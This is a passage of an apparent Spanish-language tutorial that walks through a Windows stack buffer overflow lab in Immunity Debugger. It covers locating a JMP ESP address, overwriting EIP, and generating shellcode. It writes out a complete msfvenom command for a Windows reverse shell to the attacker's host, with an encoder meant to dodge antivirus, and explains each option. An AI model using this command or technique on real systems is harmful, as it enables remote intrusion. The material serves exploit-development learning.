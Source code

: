 Cuando sabemos cuales no debemos incluir, volvermos a correr el binario en Immunity y volver a las direcciones en donde haya un salto a la ESP. 
Utilizaremos nuevamente el comando !mona jmp -r esp así tomamos uno de los resultados que tenga salto hacia la pila ESP (0x625011c7)

<img width="1244" height="409" alt="script 6" src="https://github.com/user-attachments/assets/30479c0d-99da-4ae7-80f5-4ac82acf43be" />

Luego en Immunity hacemos botón derecho sobre el cuadrante izquierdo superior y elejimos "go to> expression".

<img width="1320" height="778" alt="script 6-1" src="https://github.com/user-attachments/assets/9be9195c-0bd4-4388-b8a1-3830ac312668" />
<img width="1021" height="481" alt="script 6-2" src="https://github.com/user-attachments/assets/2371e45c-bb1d-48c1-a666-26cb40276f4d" />

Ahí vemos justamente el mismo valor, la misma dirección de memoria previa, que buscamos el cual tiene un jump o salto hacia el ESP

<img width="1194" height="609" alt="script 6-3" src="https://github.com/user-attachments/assets/c779be90-600d-4d96-96c2-9270e74ec8f4" />

Por lo tanto, si en vez de enviar las 2006 "A" + las 4 "B" para sobreescribir la EIP pusiésemos el valor anterior (se pone de atrás hacia adelante, es decir, NO "625011c7" sino "c7115062") 

Ejecutemos el script 6:

<img width="1118" height="842" alt="script 6 run" src="https://github.com/user-attachments/assets/f516b9e1-c45c-4f85-8c90-24a557abde5f" />

Vemos que luego de las "A" en vez de tener "B" tenemos la instrucción mencionada arriba, 115062.

<img width="1217" height="705" alt="script 6-4" src="https://github.com/user-attachments/assets/adfdad91-6a55-4d7d-8e59-7cb710cac534" />

Seguimos evidenciando, aparecen previamente los NOPs porque fue así configurado el script y nuevamente la secuencia de AF115062 (endian format)

<img width="1793" height="842" alt="script 6-5" src="https://github.com/user-attachments/assets/65aa85e0-5954-4ced-88b5-ec0921ad8a20" />

Vamos al último paso, el de poder explotar la vulnerabilidad. Para esto nos vamos a crear nuestro Shell code con Kali (si uno no quiero hacer esto, simplemente se puede armar su script de Python copiando o descargando el mismo y listo).

Ingresamos a Kali y ejecutamos: "msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.49 LPORT=443 EXITFUNC=thread --bad-chars "\x00" -e x86/shikata_ga_nai --format python"

<img width="1163" height="679" alt="Kali1" src="https://github.com/user-attachments/assets/ab729ddf-757b-4847-9bd5-15e574fec745" />

Explicación del comando: El comando genera un payload (carga útil) en formato Python que, al ejecutarse en un sistema Windows objetivo, establece una conexión de shell inverso (reverse shell) hacia la máquina del atacante (Kali Linux, en caso de no tener ejecutarlo en otro linux con la IP de ese sistema operativo). Esto permite al atacante obtener una sesión de comandos (cmd.exe) en el sistema destino.

a. **`msfvenom`**: comando de Metasploit para generar payloads personalizados.  
b. **`-p windows/shell_reverse_tcp`**: especifica el payload a generar; un shell inverso para sistemas Windows que se conecta al atacante a través de TCP.  
c. **`LHOST=192.168.1.49`**: esta IP es la del Kali en mi caso, aquí es donde el payload, cuando se ejecute en el destino, intentará conectarse para darme el reverse shell.  
d. **`LPORT=443`**: el puerto en la máquina del atacante donde se espera la conexión. El puerto 443 (HTTPS) se usa porque el tráfico en este puerto puede pasar desapercibido en redes con firewalls.  
e. **`EXITFUNC=thread`**: indica que el payload se ejecuta como un hilo en el proceso objetivo. Si el payload termina, el hilo se cierra sin afectar el proceso principal, mejorando la estabilidad y evitando detección.  
f. **`--bad-chars "\x00"`**: excluye el byte nulo (`\x00`) del payload, ya que puede romper cadenas de texto o causar errores en la ejecución.  
g. **`-e x86/shikata_ga_nai`**: usa el codificador `shikata_ga_nai` para ofuscar el payload, haciéndolo más difícil de detectar por antivirus. Este codificador es polimórfico y funciona en arquitecturas x86 (32 bits).  
h. **`--format python`**: genera el payload como un script Python (array de bytes), ideal para integrarlo en scripts o ejecutarlo en sistemas con Python instalado.
